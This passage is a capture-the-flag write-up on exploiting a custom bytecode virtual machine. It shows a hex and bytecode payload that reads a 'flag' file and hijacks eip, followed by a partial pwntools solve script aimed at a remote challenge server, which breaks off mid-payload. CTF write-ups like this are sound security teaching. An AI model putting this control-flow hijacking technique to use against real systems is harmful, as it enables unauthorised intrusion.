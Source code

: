 However, there are only 3 instructions left in the original bytecode after the `regtomem` instruction that puts the value of `ecx` into memory, which means that we cannot directly put our payload at index 2504, since there will be no space in memory left for our fourth instruction. So, we can instead put our payload at any location, and replace the instruction at 2504 with something that modifies `eip` instead to jump to our payload.

During the qualifiers, my payload looked something like this:

```
 116: 666c6167
      "flag"
 120: 00000001 00656378 00000000 00000074
      add ecx 0 116
 136: 000000dd 00000002 00656378 00657369
      call 2 ecx esi
 152: 0000000f 00657369 00000000 00000000
      regtomem esi 0 0
 168: 000000dd 00000000 00656469 00000000
      call 0 edi 0
...
2504: 00000001 00656970 00000000 00000068
      add eip 0 104
```

Since all instructions begin with null bytes, we can put `"flag"` directly before an instruction to use its null byte. `edi` and `esi` also are not used at all throughout the program, so their contents are 0.

Now, to load this into `ecx`, we can simply do it 7 nibbles at a time, by repeatedly adding and then multiplying by `0x10000000`. My solve script looked something like this:

```py
from pwn import *
p = remote("kek.cx", 6969)
ops = 0

def send(x):
    global ops
    assert len(x) == 7
    x = bytes.fromhex("0"+x)
    if x != b'\x00\x00\x00\x00':
        p.sendline(b"add ")
        p.sendline(x)
        ops += 1
    p.sendline(b"mul ")
    p.sendline(b"\x10\x00\x00\x00")
    ops += 1

payload = """666c615
7000000
0100656
3780000
0000000
0007400
0000dd0
0000002
0065637
8006573
6900000
00f0065
7369000
0000000
0000000
00000dd
0000000
0006564
```